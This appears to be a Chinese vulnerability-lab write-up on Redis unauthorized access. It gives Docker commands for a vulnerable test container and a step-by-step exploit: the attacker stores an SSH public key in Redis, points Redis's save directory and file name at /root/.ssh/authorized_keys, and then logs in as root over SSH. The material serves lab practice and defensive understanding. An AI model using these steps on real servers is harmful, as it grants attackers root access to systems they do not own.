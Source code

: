 Redis 未授权访问漏洞
---

### 漏洞信息

> antirez :
> 
>  From time to time I get security reports about Redis. It’s good to get reports, but it’s odd that what I get is usually about things like Lua sandbox escaping, insecure temporary file creation, and similar issues, in a software which is designed (as we explain in our security page here http://redis.io/topics/security) to be totally insecure if exposed to the outside world.
> 
>我时不时的会收到有关Redis的安全报告, 这些报告多是有关 Lua沙盒溢出或是不安全的写文件这种千篇一律的问题, 但是这对一个被设计成一旦暴露在外部网络中就毫无安全性可言的软件来说简直是太奇怪了, 因为他们本来就不该暴露在外部网络之中 : (
>

如果将 Redis 绑定在 0.0.0.0:6379，会将Redis服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。

攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，如果运行 redis 的用户是 root 用户，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接登录目标服务器。

### 镜像信息

类型 | 值
:-:|:-:|:-:
redis 端口 | 6379
redis 密码 | 无
sshd 端口 | 22
ssh root 密码 | 未设置(自行通过漏洞登录)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:r_redis_1
 ```

2. 启动环境

 ```
$ docker run --name=redisvul -d -p 6379:6379 medicean/vulapps:r_redis_1
 ```
 > `-p 22:22` 前面的 22 代表物理机的端口，可随意指定。
 >

3. 检测是否启动

 使用 redis-cli 连接 redis 显示成功则代表服务已经启动


### 利用步骤

1. 在攻击方生成一对 ssh key (如果已经生成过则可跳过此步骤)

 ```
  $ ssh-keygen -t rsa
 ```
 
 默认情况下，生成后在用户的家目录下的 .ssh 目录下
 
2. 将生成的公钥的值写入目标服务器

 ```
 $ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt
 $ cat /tmp/foo.txt | redis-cli -h 192.168.1.100 -p 6379 -x set crackit
 ```
 
 > 加上 `\n\n` 是为了不破坏 ssh public key
 > 
 > crackit 是设置的 key，可随意指定

3. 连接目标

 ```
 $ redis-cli -h 192.168.1.100 -p 6379
192.168.1.100:6379> config set dir /root/.ssh/
OK
192.168.1.100:6379> config get dir
1) "dir"
2) "/root/.ssh"
192.168.1.100:6379> config set dbfilename "authorized_keys"
OK
192.168.1.100:6379> save
OK
 ```
 
 将目录设置为 /root/.ssh/ 目录后，再将备份文件名设置为 `authorized_keys`，通过 save 指令即可写入文件。

4. 通过 ssh 连接目标

 ```
 $ ssh root@192.168.1.100 -i ~/.ssh/id_rsa
 ```
 > 默认会使用 `id_rsa` 如果改过文件名则可以用 -i 参数来指定。

### 推荐阅读

* [A few things about Redis security -- antirez](http://antirez.com/news/96)
* [Trying to hack Redis via HTTP requests](https://www.secpulse.com/archives/5366.html)
* [Redis 未授权访问检测](http://www.bugscan.net/source/plugin/2360/template/)
* [Redis 未授权访问缺陷可轻易导致系统被黑](https://www.seebug.org/vuldb/ssvid-89715)

### 扩展阅读

> ssh 不仅支持密码登录，还支持证书登录

* [authorized_keys 文件说明](http://man.he.net/man5/authorized_keys)
